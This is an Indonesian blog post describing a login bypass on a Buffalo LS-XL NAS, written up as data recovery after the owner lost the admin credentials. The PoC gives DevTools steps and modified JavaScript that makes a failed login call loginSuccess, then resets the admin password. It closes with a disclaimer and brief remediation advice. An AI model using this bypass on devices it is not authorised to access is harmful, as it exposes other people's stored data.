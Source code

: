 ```yaml
---
layout: post
title: Pentest NAS Buffalo LS-XL
modified: 2023-01-28T17:00:28+07:00
categories:
description: "Pentest NAS Buffalo LS-XL"
tags: [pentest, exploit, vulnerability, nas]
image:
  background: triangular.png
comments: true
share: true
date: 2023-01-28T17:00:28+07:00
---
```


Singkat cerita saya membutuhkan akses ke NAS buffalo ls-xl ini yang dimana tipe nas ini sudah sangat jadul akses untuk factory reset dan ganti password pun harus punya master aksesnya dan ternyata master aksesnya lupa sempat frustasi karena harus ada penyelamatan data dan data tersebut data penting perusahaan, sudah cek SN pun di official sudah tidak terdaftar sempat berpikir, why? sehingga saya sedikit pengkodean kreatif untuk coba menyelamatkan. Dan ternyata setelah observasi percobaan pentest, NAS memiliki vulnerability dan exploit melalui injeksi langsung devtools.

## Table of contents

- [Table of contents](#table-of-contents)
- [Proof Of Concept](#poc)
- [Remediasi](#remediasi)

## PoC

Berikut tahapan-tahapan nya:

- Buka halaman login NAS LS-XL (via IP)
- Menggunakan DevTools Chrome dan buka pada bagian sources
- Buka file login_utis.js yang berada pada folder authentication

Dan coba modifikasi code dengan membypass fungsi loginSuccess, hanya memodifikasi bagian kode dibawah ini saja :

```shell
function login(f, lang) {
  if(login_lock != 0) {
    return;
  }
  login_lock = 1;
  var uid = Ext.getCmp('user');
  var uid_value = uid.getValue();
  var pwd = Ext.getCmp('password');
  var pwd_value = pwd.getValue();

  f.form.submit({
    url: '/dynamic.pl',
    params: {
      bufaction: 'verifyLogin'
    },
    waitTitle: S('Please Wait...'),
    waitMsg: S('Logging In...'),
    success: function(form, action) {
      var decodedResponse = Ext.decode(action.response.responseText);
      var jsonData = decodedResponse.data;
      loginSuccess(f, action, uid_value, lang);
    },
    failure: function(form, action) {
      loginSuccess(f, action, uid_value, lang);
    }
  });
};
```

- Save Ctrl+S
- login dengan username admin dengan password bebas
- Reset akun admin dengan password baru

Terdapat keamanan yang buruk pada NAS dalam hal ini dapat mensolusikan penyelamatan data, saya sengaja melakukan ini dan pentest karena terdesak dan data tersebut penting. mohon untuk tidak dicoba-coba untuk digunakan dengan hal yang tidak diinginkan ya saya disini hanya share untuk penyelamatan data saja dan buntu.


## Remediasi

Tidak untuk dicoba-coba segera untuk anda pemilik NAS simpan password dan akun master anda jangan sampai lupa, dan lakukan langsung update patching software terbaru dari official vendor NAS anda.

